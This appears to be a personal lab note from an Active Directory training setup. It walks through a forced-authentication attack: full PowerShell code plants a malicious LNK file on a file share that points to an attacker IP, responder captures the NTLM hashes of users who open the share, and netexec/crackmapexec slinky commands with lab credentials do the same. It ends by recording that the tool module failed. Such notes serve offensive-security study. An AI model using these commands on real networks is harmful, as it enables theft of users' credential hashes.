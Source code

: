 Attack idea:
1. We craft a malicious file and place it in a file share
2. We start *responder*
3. When the file is opened by a victim an authorization request is enforced and we can capture the hashes with *responder*

There is multiple ways of doing this.

Resources:
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf

---

# Malicious file creation with PowerShell

Create a malicious link (LNK):
```PowerShell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\10.0.0.11\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

**$objShell.CreateShortcut("C:\\test.lnk")**:
This specifies the location and name of the created link.

**TargetPath**:
This is the path that is looked up (In this case a non-existing PNG file on our attacker machine) when the link gets resolved.

## Create the file in the fileshare "hackme"

We create the malicious link in the file share "hackme" on SPIDERMAN. Notice that we need an administrative powershell session for this:
```PowerShell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("\\HYDRA-DC\hackme\test.lnk")
$lnk.TargetPath = "\\10.0.0.11\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

This indeed created the file:
![[Pasted image 20240321180407.png]]

## Collect hashes

On our attacker machine run *responder*:
```bash
sudo responder -I eth1 -dP
```
Make sure that SMB and HTTP is on in the config file **/etc/responder/Responder.conf**
![[Pasted image 20240321180835.png]]

If a user now opens the file share the link is automatically resolved and *responder* was able to collect his hash:
![[Pasted image 20240321181020.png]]


# Malicious file creation with Netexec

Alternatively to creating a file via Powershell we can use the tool *netexec*:
```bash
netexec smb 10.0.0.20 -d MARVEL.local -u frank -p Password1 -M slinky -o NAME=test_netexec SERVER=10.0.0.11
```
Args:
`10.0.0.20`: The IP address where the file share is located (remember we mounted the file share on SPIDERMAN)
`-M slinky`: The module *slinky* which we use for this attack
`-o NAME=test_netexec`: The link name (*test_netexec* in our case)
`SERVER=10.0.0.11`: The IP address which the link should be resolved to, in our case IP address of the attacker machine


==FAIL==

*netexec* has no module slinky for me!!!!

*Crackmapexec* has the module but the link creation does not work:
```bash
cme smb 10.0.0.20 -d MARVEL.local -u frank -p Password1 -M slinky -o NAME=test_netexec SERVER=10.0.0.11
```